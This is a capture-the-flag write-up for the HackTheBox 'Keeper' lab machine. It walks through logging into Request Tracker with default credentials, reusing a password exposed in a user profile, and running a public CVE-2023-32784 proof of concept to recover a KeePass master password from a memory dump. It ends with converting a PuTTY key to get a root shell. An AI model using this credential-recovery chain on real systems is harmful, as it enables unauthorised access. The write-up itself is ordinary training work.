 ```yaml
---
layout: post
title: "Keeper - HTB"
date: 2024-02-13
---
```


# HTB Keeper Write Up
![HTB Keeper](keeper_imgs_20240213/machine_info.png "Keeper")

## Network Scan

<details>
<summary><b>Nmap scan result</b></summary>
```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3539d439404b1f6186dd7c37bb4b989e (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKHZRUyrg9VQfKeHHT6CZwCwu9YkJosNSLvDmPM9EC0iMgHj7URNWV3LjJ00gWvduIq7MfXOxzbfPAqvm2ahzTc=
|   256 1ae972be8bb105d5effedd80d8efc066 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBe5w35/5klFq1zo5vISwwbYSVy1Zzy+K9ZCt0px+goO
80/tcp open  http    syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
</details>

## Investigation
Accessing the http service, it just prints a redirection message to tickets.keeper.htb/rt vhost.
![Http server no vhost](keeper_imgs_20240213/http_server_no_vhost.png "Http server no vhost")   

### tickets.keeper.htb
Best Practical Request Tracker software. There is no public exploit to recent vulnerabilities
This service comes with default credentials
```
User: root
Pass: password
```

It is possible to log in with default credentials.
![Request tracker page](keeper_imgs_20240213/request_tracker_page.png "Request tracker page")

Issue tracker software normally contains sensitive information. Usually on the issues but they can be useful in finding users list, information about local services, etc.
On this server, there were only two users:
![Request tracker user list](keeper_imgs_20240213/request_tracker_user_list.png "Request tracker user list")
lnorgaard user has the password on the description
![lnorgaard password](keeper_imgs_20240213/lnorgaard_password.png "lnorgaard password")

Checking if it's possible to log in on ssh with this user and it's possible.

### lnorgaard
RT30000.zip file on home, containing two files
```
$ unzip -l RT30000.zip 
Archive:  RT30000.zip
  Length      Date    Time    Name
---------  ---------- -----   ----
253395188  2023-05-24 12:51   KeePassDumpFull.dmp
     3630  2023-05-24 12:51   passcodes.kdbx
---------                     -------
253398818                     2 files
```

Looking into the files
```
$ file KeePassDumpFull.dmp 
KeePassDumpFull.dmp: Mini DuMP crash report, 16 streams, Fri May 19 13:46:21 2023, 0x1806 type
```
```
$ file passcodes.kdbx 
passcodes.kdbx: Keepass password database 2.x KDBX
```

There is a [KeePass vulnerability][CVE-2023-32784] that it is possible to retrieve passwords from a memory dump.
Using a public exploit from [vdhoney][keepass-password-dumper] it's possible to find a list with possible passwords
```
$ dotnet run ~/keeper/KeePassDumpFull.dmp
... SNIP ...
Combined: ●{ø, Ï, ,, l, `, -, ', ], §, A, I, :, =, _, c, M}dgrød med fløde
```
This means that the first character is unknown `●` and the following are possible 16-second characters appended on beginning of `dgrød med fløde`.
Using Google Translate to identify the language, to later perform a smart brute force on the character set. The language was identified as Danish.
When doing this, it was corrected to `rødgrød med fløde`. This is the correct password for passcodes.kdbx

There was a root user with both password and PuTTY SSH key pair
![Root SSH](keeper_imgs_20240213/root_ssh.png "Root SSH")

[A PuTTY ssh key can be converted to openssh format][ssh-key-types-convert-ppk].
Following the guide to get the private key and log in as the root
```
$ ssh -i root.id_rsa root@10.10.11.227
$ id
uid=0(root) gid=0(root) groups=0(root)
```

[CVE-2023-32784]: <https://nvd.nist.gov/vuln/detail/CVE-2023-32784> "CVE-2023-32784"
[keepass-password-dumper]: <https://github.com/vdohney/keepass-password-dumper> "keepass-password-dumper"
[ssh-key-types-convert-ppk]: <https://www.baeldung.com/linux/ssh-key-types-convert-ppk> "ssh-key-types-convert-ppk"
